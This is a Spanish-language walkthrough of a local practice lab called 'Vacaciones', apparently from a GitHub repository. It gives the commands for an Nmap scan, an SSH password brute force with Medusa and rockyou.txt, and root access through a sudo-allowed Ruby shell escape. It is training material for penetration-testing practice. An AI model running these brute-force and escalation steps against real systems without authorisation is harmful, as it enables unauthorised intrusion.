 # Laboratorio 2: Vacaciones

## Descripción
Este laboratorio consiste en obtener acceso a una máquina mediante un ataque de fuerza bruta al servicio SSH y escalar privilegios para obtener acceso root.

## Pasos para la resolución

1. **Despliegue del laboratorio:**
   - Ejecutar el comando: `sudo bash auto_deploy.sh vacaciones.tar`.

     ![image](https://github.com/user-attachments/assets/94699d93-ffd2-40c9-9c97-378cf91775d0)


2. **Reconocimiento:**
   - Verificar la conectividad con la máquina objetivo: `ping -c 1 172.17.0.2`.

  ![image](https://github.com/user-attachments/assets/39f0ddde-bafb-47b4-8a0a-6988c8f73d72)

   - Escanear la máquina con Nmap: `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts`.

  

3. **Ataque de fuerza bruta con Medusa:**
   - Ejecutar el ataque: `medusa -h 172.17.0.2 -U users -P /usr/share/wordlists/rockyou.txt -M ssh`.

     ![image](https://github.com/user-attachments/assets/1a837004-9c40-4dbf-b6d3-48d688685ea7)


    
4. **Acceso SSH:**
   - Conectarse a la máquina: `ssh camilo@172.17.0.2`.
   - Introducir la contraseña obtenida en el paso anterior.
  
    ![image](https://github.com/user-attachments/assets/e15ba6a1-23e9-4368-8a01-5c39a0c9b43a)
 

5. **Escalada de privilegios:**
   - Buscar archivos con permisos SUID: `find / -perm -4000 2>/dev/null`.
   - Encontrar el correo en `/var/mail/camilo/correo.txt`.
   - Cambiar al usuario `juan` con `su juan`.
   - Ejecutar `sudo -l` para listar los comandos permitidos.
   - Elevar privilegios con Ruby: `sudo ruby -e 'exec "/bin/bash"'`.

   ![image](https://github.com/user-attachments/assets/62b7734f-e771-4ddd-8df9-6ac8cfae98f6)

   ![image](https://github.com/user-attachments/assets/8852e99d-8816-4006-9b43-b4d128d8c37e)

   ![image](https://github.com/user-attachments/assets/1a4bb94e-3e91-4e05-b03f-a72777ed6a17)

   ![image](https://github.com/user-attachments/assets/fd2f5945-7893-479c-813b-f86c219f073a)

   ![image](https://github.com/user-attachments/assets/3379c764-07c1-4852-88ba-0280e4f55f22)

 
   ![image](https://github.com/user-attachments/assets/f811e5b9-388b-4c6b-b6d7-0e5fadadc4bd)



## Conclusión
Se logró obtener acceso a la máquina mediante un ataque de fuerza bruta y escalar privilegios para obtener acceso root.
